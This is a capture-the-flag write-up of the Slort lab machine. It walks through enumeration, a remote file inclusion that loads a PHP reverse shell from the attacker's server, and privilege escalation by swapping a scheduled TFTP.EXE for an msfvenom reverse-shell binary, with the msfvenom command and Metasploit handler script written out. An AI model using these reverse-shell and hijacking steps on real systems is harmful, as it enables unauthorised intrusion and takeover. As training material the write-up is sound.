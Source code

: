 ### Slort Proving Ground Practice

### Difficulty = Intermediate

### IP Address = 

Nmap Scan:

```
└─$ nmap -sCV 192.168.126.53 -p21,135,139,445,3306,4443,5040,7680,8080 -oN nmapscan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-28 01:16 WAT
Nmap scan report for 192.168.126.53
Host is up (0.16s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 0.9.41 beta
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL, X11Probe: 
|_    Host '192.168.49.126' is not allowed to connect to this MariaDB server
4443/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.126.53:4443/dashboard/
5040/tcp open  unknown
7680/tcp open  pando-pub?
8080/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.126.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :                                    
SF-Port3306-TCP:V=7.92%I=7%D=2/28%Time=63FD47D4%P=x86_64-pc-linux-gnu%r(NU                              
SF:LL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.126'\x20is\x20not\x20al                              
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,                              
SF:4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.126'\x20is\x20not\x20allow                              
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");                                            
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                                                
                                                                                                        
Host script results:                                                                                    
| smb2-security-mode:                                                                                   
|   3.1.1:                                                                                              
|_    Message signing enabled but not required                                                          
| smb2-time:                                                                                            
|   date: 2023-02-28T00:18:15                                                                           
|_  start_date: N/A                                                                                     
                                                                                                        
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .          
Nmap done: 1 IP address (1 host up) scanned in 134.11 seconds  
```

From the scan we see that various ports are open

I'll start enumeration from port 21 which is ftp

### FTP Enumeration

Attempting to connect to with anonymously doesn't work

```
└─$ ftp 192.168.126.53
Connected to 192.168.126.53.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
Name (192.168.126.53:mark): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
```

Lets move on 

#### SMB Enumeration

It doesn't allow anonymous listing of shares

```
└─$ smbclient -L 192.168.126.53 
Password for [WORKGROUP\mark]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

#### MYSQl Enumeration

Attempting to login with default cred doesn't work cause we my host ip isn't allowed to connect to the mysql service  

```
└─$ mysql -u root -h 192.168.126.53 -p
Enter password: 
ERROR 1130 (HY000): Host '192.168.49.126' is not allowed to connect to this MariaDB server

```

#### Web Server Enumeration (4443 & 8080)

Heading over to the web page shows the default xampp web page for both port 4443 and 8080
![image](https://user-images.githubusercontent.com/113513376/221719866-ef9aef43-19bb-427e-8340-effa4ffe49e3.png)
![image](https://user-images.githubusercontent.com/113513376/221719802-22fefa7b-32b5-4bad-a6fd-5d87aaf542df.png)

When i tried accessing phpmyadmin i get an error
![image](https://user-images.githubusercontent.com/113513376/221720508-2b38f8bd-3889-4a7f-9c14-baf4f93ab5b6.png)

But on checking phpinfo it works 
![image](https://user-images.githubusercontent.com/113513376/221720573-47ba24af-6125-4399-80d5-afd76058c5e1.png)

Reading it shows it allows urlfopen meaning we can include remote files 
![image](https://user-images.githubusercontent.com/113513376/221720644-5a8639a2-47c0-4933-9bd1-d42ae39f3e56.png)

We also know know that there's a user on the box called rupert
![image](https://user-images.githubusercontent.com/113513376/221720821-7c5b9862-3e76-4387-80c4-96b05cd1ba12.png)

I'll run gobuster on each of the web service running on both ports
![image](https://user-images.githubusercontent.com/113513376/221721532-057a479e-60de-40a2-9e0e-bda01237398c.png)

Heading over to site on port 8080 shows this
![image](https://user-images.githubusercontent.com/113513376/221721592-f94382fe-9d8e-438f-b314-30870026642e.png)

Looking at the url it shows that its including the main.php file

So this is a local file inclusion vulnerability 

We can confirm by reading the windows /etc/hosts file located at `C:\windows\system32\drivers\etc\hosts`
![image](https://user-images.githubusercontent.com/113513376/221722344-39692f4c-6ff6-4fdd-875c-0618255c41a3.png)
![image](https://user-images.githubusercontent.com/113513376/221722392-47251b32-2aed-4b78-95b6-84932e8630b8.png)

If you remember from reading the phpinfo file we know that urlfopen is enabled 

With this we can include remote files via the LFI

#### Exploitation

First i'll save a php reverse shell gotten from [revshells](https://www.revshells.com/)

Then after that i'll set a listener on port 8080 and a web server on port 80
![image](https://user-images.githubusercontent.com/113513376/221723291-a28baf70-2f98-406c-8580-c5b973b44d2c.png)

Now i can include the shell.php on the web server which will then be executed
![image](https://user-images.githubusercontent.com/113513376/221723578-b4b0a2a8-e176-4df1-9859-a3ae8ae422bc.png)

Back on the listener i get a connection back
![image](https://user-images.githubusercontent.com/113513376/221723627-3790cb3a-e003-48ef-bc8b-06c24f82836c.png)

Now lets get root 

Checking the C:\ directory shows a backup directory
![image](https://user-images.githubusercontent.com/113513376/221724049-5b6ee9c3-2498-4d17-a1a3-80b638fdbb02.png)

And what the info.txt says is that there will be a cron which will run every 5 minutes

```
C:\Backup>more info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt

C:\Backup>
```

On checking the permission we have over that directory shows that we have full access 

```
C:\Backup>icacls .
. BUILTIN\Users:(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  BUILTIN\Users:(I)(OI)(CI)(RX)
  NT AUTHORITY\Authenticated Users:(I)(M)
  NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

Successfully processed 1 files; Failed processing 0 files

C:\Backup>
```

Now lets replace the TFTP.exe to a reverse shell binary

Using msfvenom i'll create the binary (I'm having issue with msfvenom if i don't use bundler exec to run it xD)

```
Payload: msfvenom -p windows/x64/reverse_tcp LHOST=tun0 LPORT=4443 -f exe -o TFTP.exe
```

After that i will then upload it to the target and replace it with the orginal TFTP binary and wait for the reverse shell
![image](https://user-images.githubusercontent.com/113513376/221725185-ba7e9ed1-d354-45ba-9b21-61f8b713ed2d.png)

I will use metasploit to receive the shell

```
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Slort]
└─$ cat payload.rc  
use multi/handler
set payload windows/meterpreter/reverse_tcp 
set lhost tun0
set lport 4443
exploit

                                                                                                                         
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Slort]
└─$ msfconsole -r payload.rc
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP                                               
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP                                                
                                                                                                                         
                                                                    .                                                    
                .                                                                                                        
        o                  To boldly go where no                                                                         
                            shell has gone before                                                                        
                                                                                                                         

       =[ metasploit v6.2.9-dev                           ]
+ -- --=[ 2229 exploits - 1177 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Enable HTTP request and response logging 
with set HttpTrace true

[*] Processing payload.rc for ERB directives.
resource (payload.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (payload.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (payload.rc)> set lhost tun0
lhost => tun0
resource (payload.rc)> set lport 4443
lport => 4443
resource (payload.rc)> exploit
[*] Started reverse TCP handler on 192.168.49.126:4443 
```

But i waited and notice it isn't working 

Likely cause of firewall outbound connection on the port i used

So i redid the same process again but this time used port 8080 and after replacing the binary back it worked
![image](https://user-images.githubusercontent.com/113513376/221727216-98d549dc-b943-4ca1-a23f-953d22980fbd.png)

And we're done
<br> <br>
[Back To Home](../../index.md)

